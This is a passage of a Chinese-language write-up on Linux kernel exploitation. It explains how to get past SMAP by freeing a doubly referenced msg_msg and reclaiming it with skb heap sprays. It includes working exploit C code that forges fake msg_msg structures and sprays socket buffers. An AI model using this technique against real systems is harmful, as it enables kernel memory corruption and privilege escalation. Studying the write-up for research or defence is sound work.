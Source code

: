 但是注意到当实现步骤2时，msg_msg已经被破坏，且skb无法伪造msg_msg-&gt;list_head-&gt;next成员，如果此时主消息2释放msg_msg，辅助消息会被从循环链表msg_msg-&gt;list_head中去除，也就是说此阶段会涉及到对于msg_msg-&gt;list_head-&gt;next的读写，因为存在smap在用户态伪造该字段无意义，内核在此处会检查到smap错误，利用失败，所以接下来需要绕过SMAP

### **2.3 绕过SMAP**

**2.3.1 释放被重复引用的辅助消息**

内存布局如下：

[![](https://p4.ssl.qhimg.com/t01b4108360db24ffbd.png)](https://p4.ssl.qhimg.com/t01b4108360db24ffbd.png)

```
printf("[*] Freeing real secondary message...\n");
if (read_msg(msqid[real_idx], &amp;msg_secondary, sizeof(msg_secondary),
            MTYPE_SECONDARY) &lt; 0)
goto err_rmid;
```

**2.3.2 skb堆喷并伪造辅助消息**

m_ts: 伪造辅助消息的时候需要着重关注m_ts字段，他表示消息长度

内存布局如下：<br>[![](https://p1.ssl.qhimg.com/t01662807bc8bb85eb4.png)](https://p1.ssl.qhimg.com/t01662807bc8bb85eb4.png)

```
void build_msg_msg(struct msg_msg *msg, uint64_t m_list_next,
                   uint64_t m_list_prev, uint64_t m_ts, uint64_t next) `{`
  msg-&gt;m_list_next = m_list_next;
  msg-&gt;m_list_prev = m_list_prev;
  msg-&gt;m_type = MTYPE_FAKE;
  msg-&gt;m_ts = m_ts;
  msg-&gt;next = next;
  msg-&gt;security = 0;
`}`

int spray_skbuff(int ss[NUM_SOCKETS][2], const void *buf, size_t size) `{`
  for (int i = 0; i &lt; NUM_SOCKETS; i++) `{`
    for (int j = 0; j &lt; NUM_SKBUFFS; j++) `{`
      if (write(ss[i][0], buf, size) &lt; 0) `{`
        perror("[-] write");
        return -1;
      `}`
    `}`
  `}`
  return 0;
`}`

// Reclaim the previously freed secondary message with a fake msg_msg of
// maximum possible size.
printf("[*] Spraying fake secondary messages...\n");
memset(secondary_buf, 0, sizeof(secondary_buf));
build_msg_msg((void *)secondary_buf, 0x41414141, 0x42424242,
            PAGE_SIZE - MSG_MSG_SIZE, 0);
if (spray_skbuff(ss, secondary_buf, sizeof(secondary_buf)) &lt; 0)
goto err_rmid;
```
